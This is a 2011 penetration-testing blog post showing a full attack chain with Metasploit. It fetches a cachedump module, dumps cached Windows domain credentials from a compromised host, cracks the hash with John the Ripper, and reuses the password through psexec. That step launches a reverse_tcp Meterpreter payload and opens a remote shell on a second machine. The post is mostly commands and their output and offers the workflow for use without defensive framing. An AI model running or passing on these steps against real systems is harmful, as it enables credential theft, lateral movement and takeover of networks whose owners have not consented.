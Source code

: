 ---
author: mubix
comments: true
date: 2011-02-14 22:03:37+00:00
layout: post
title: Cachedump for Meterpreter in action
categories:
- meterpreter
- cachedump
---

**Update**: Cachedump has been added to the Metasploit trunk:

[https://dev.metasploit.com/redmine/projects/framework/repository/revisions/12946](https://dev.metasploit.com/redmine/projects/framework/repository/revisions/12946)

Pull it down:

```
wget http://lab.mediaservice.net/code/cachedump.rb
```

put it here:  `/(metasploitdir)/modules/post/windows/gather`

Load up console and pwn something then (MAKE SURE YOU ARE SYSTEM):

```
meterpreter > run post/windows/gather/cachedump
[*] Executing module against WORKSTATION244
[*] Obtaining the boot key...
[*] Trying 'XP' style...
[*] Getting PolSecretEncryptionKey...
[*] XP compatible client
[*] Lsa Key: 29249a6480f428cb6dacba2d30d5292c
[*] Getting LK$KM...
[*] Dumping cached credentials...
Username  : jdoe
Hash  : 592cdfbc3f1ef77ae95c75f851e37166
Last login  : 2010-05-11 01:43:48
DNS Domain Name  : CONTOSO.CO
Effective Name  : jdo
Full Name  : eJane Do
User ID  : 1107
Primary Group ID  : 513
Additional groups  : 33620069 33554432 34013184
Logon domain name  : CONTOS
----------------------------------------------------------------------
 
[*] John the Ripper format:
jdoe:592cdfbc3f1ef77ae95c75f851e37166:CONTOSO.CO:CONTOS

[*] Hash are in MSCACHE format. (mscash)
meterpreter >
```

Crack it:

```
cat lab.dic | ./john --stdin lab.mscash --format=mscash --pot=lab.pot  
Loaded 1 password hash (M$ Cache Hash [Generic 1x])  
ASDqwe123  (jdoe)  
guesses: 1  time: 0:00:00:00  c/s: 500  trying: ASDqwe123
```

Use it:

```
meterpreter > background  
msf exploit(handler) > route add 10.10.10.0 255.255.255.0 1  
msf exploit(handler) > use exploit/windows/smb/psexec  
msf exploit(psexec) > set PAYLOAD windows/meterpreter/reverse_tcp  
PAYLOAD => windows/meterpreter/reverse_tcp  
msf exploit(psexec) > set LHOST X.X.X.X  
LHOST => X.X.X.X  
msf exploit(psexec) > set LPORT 80  
LPORT => 80  
msf exploit(psexec) > set SMBDomain Contoso
SMBDomain => Contoso  
msf exploit(psexec) > set SMBUser jdoe  
SMBUser => jdoe  
msf exploit(psexec) > set SMBPass ASDqwe123  
SMBPass => ASDqwe123  
msf exploit(psexec) > show options

Module options (exploit/windows/smb/psexec):

Name  Current Setting  Required  Description  
----  ---------------  --------  -----------  
RHOST  yes  The target address  
RPORT  445  yes  Set the SMB service port  
SMBDomain  Contoso  no  The Windows domain to use for authentication  
SMBPass  ASDqwe123  no  The password for the specified username  
SMBUser  jdoe  no  The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):


Name  Current Setting  Required  Description  
----  ---------------  --------  -----------  
EXITFUNC  process  yes  Exit technique: seh, thread, none, process  
LHOST  X.X.X.X  yes  The listen address  
LPORT  80  yes  The listen port


Exploit target:

Id  Name  
--  ----  
0  Automatic

 
msf exploit(psexec) > set RHOST 10.10.10.200  
RHOST => 10.10.10.200  
msf exploit(psexec) > exploit

[*] Started reverse handler on X.X.X.X:80  
[*] Connecting to the server...  
[*] Authenticating to 10.10.10.200:445|Contoso as user 'jdoe'...  
[*] Uploading payload...  
[*] Created jSlxARUj.exe...  
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.10.10.200[svcctl] ...  
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.10.10.200[svcctl] ...  
[*] Obtaining a service manager handle...  
[*] Creating a new service (SyHtwKpn - "MbEXNupOpYUL")...  
[*] Closing service handle...  
[*] Opening service...  
[*] Starting the service...  
[*] Removing the service...  
[*] Closing service handle...  
[*] Deleting jSlxARUj.exe...  
[*] Meterpreter session 2 opened (X.X.X.X:80 -> X.X.X.X:54430) at Mon Feb 14 22:23:00 +0000 2011
```

Woot ;-)